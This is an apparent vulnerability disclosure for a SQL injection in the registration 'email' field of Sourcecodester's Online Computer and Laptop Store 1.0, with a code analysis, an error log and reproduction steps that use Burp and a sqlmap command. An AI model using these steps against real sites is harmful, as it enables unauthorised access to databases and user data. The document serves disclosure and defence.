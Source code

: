 # SQL Injection vulnerability was discovered in Sourcecodester's Online Computer and Laptop Store. (user registration)
---
## CVE-2024-XXXX
---

Affected Project: Online Computer and Laptop Store

Official Website: [Online Computer and Laptop Store](https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html)

Version: 1.0

Related Code file: `/php-ocls/classes/Master.php`

Injection parameter: `email`

Vulnerability Analysis
---
1. Use of Plain SQL Queries: The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.
2. The email variable is directly inserted into the SQL query without any escaping or parameterization. An attacker could inject malicious SQL code by manipulating the email field. in (line number 390 of Master.php)
The email is directly inserted into the SQL query without escaping or validation:

![vuln-code]([https://github.com/gurudattch/](https://github.com/gurudattch/CVEs/blob/main/assets/7.png))


```
(Backend Log for SQL injection)
[Fri Aug 30 20:24:40 2024] 192.168.192.128:56326 [500]: POST /php-ocls/classes/Master.php?f=register - Uncaught mysqli_sql_exception:
You have an error in your SQL syntax; check the manual that corresponds to your
MariaDB server version for the right syntax to use near 'myname' , `lastname`='myLname' ,
`contact`='1234567890' , `gender`='Male' , `...' at line 1 in /home/kali/CVE-TEST/php-ocls/classes/Master.php:390                                                                                                                               
Stack trace:                                                                                                                            
#0 /home/kali/CVE-TEST/php-ocls/classes/Master.php(390): mysqli->query()                                                                
#1 /home/kali/CVE-TEST/php-ocls/classes/Master.php(651): Master->register()                                                             
#2 {main}                                                                                                                               
  thrown in /home/kali/CVE-TEST/php-ocls/classes/Master.php on line 390   
```

---

Expolitation
---

1. click of Login or follow this path (http://192.168.192.128/php-ocls/login) Click on **Login**  now click on **Create Account**

![image8](https://github.com/gurudattch/CVEs/blob/main/assets/7-.png)

---

3. Fill the form and intercept the POST request in burp and copy the request

![image9](https://github.com/gurudattch/CVEs/blob/main/assets/8.png)

---

5. Store this request in a .txt file eg: register_req.txt

![image10](https://github.com/gurudattch/CVEs/blob/main/assets/9.png)

---

7. Run sqlmap
   
`sqlmap -r register_req.txt -p email`

![image](https://github.com/gurudattch/CVEs/blob/main/assets/10.png)

